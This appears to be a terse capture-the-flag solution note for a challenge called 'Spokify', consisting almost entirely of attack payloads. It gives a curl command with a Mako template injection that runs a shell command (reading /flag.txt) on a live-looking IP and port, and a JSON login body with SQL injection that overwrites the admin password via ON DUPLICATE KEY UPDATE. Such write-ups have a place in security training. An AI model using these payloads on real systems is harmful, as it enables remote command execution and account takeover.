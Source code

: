 # Spokify
Mako template injection
```
curl http://167.172.59.182:31555/?text=%24%7Bself.module.cache.util.os.popen%28%22cat+%2Fflag.txt%22%29.read%28%29%7D
```



```sqlI
 {"username":"admin\",\"a\") ON DUPLICATE KEY UPDATE password=\"$2b$12$NPwkTYwoj1sjlkO1CMlS9ObemS5M8Qirm1aLstsS1qcmxGxURHtju\"-- ",

"password":"test12"}
```
